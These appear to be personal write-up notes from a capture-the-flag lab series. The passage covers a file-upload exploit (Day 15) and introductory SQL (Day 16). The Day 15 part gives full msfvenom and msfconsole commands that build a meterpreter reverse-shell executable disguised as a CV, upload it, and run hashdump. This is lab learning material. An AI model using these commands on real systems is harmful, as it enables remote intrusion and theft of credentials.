 click on image > open in new tab, edit the page number

`/images/100.png`  = `THM{close_the_door} `


## Day 15 - Secure coding

LPORT=8888
LHOST= 10.10.197.65
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.197.65 LPORT=8888 -f exe -o cv-username.exe
```

```
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST 10.10.197.65; set LPORT 8888; exploit"
```

upload the cv-username.exe
wait for reverse shell  `meterpreter>`
cd ..
pwd
`meterpreter help` 
- `hashdump`
- `screenshot`
- `getuid`  = `santasidekick\HR_Elf`

`cd inetpub`
`cd wwwroot`
`cd Santa`
`cd Uploads`
`cd Users`
`cd HR_Elf`
`cd Documents`

` THM{naughty.file.uploads.can.get.you.rce} `

## Day 16 - SQLi

**Structured Query Language (SQL)** is the traditional language used to ask databases for information.  MySQL stores information in structures called tables. Think of them as any table in a spreadsheet document where you have **columns** and **rows**.

data table `toys`
SQL 
- `SELECT * FROM toys;`
- `SELECT name, quantity FROM toys;`
- `SELECT name, quantity FROM toys WHERE quantity >= 20;`

SQL from PHP

1. connect to the database  the `msqli` extension:  `mysqli_connect()`
2. enter the IP or name of database server as 1st parameter `$server`
3. username `$user`
4. password `$pwd` 
5. schema `$schema`
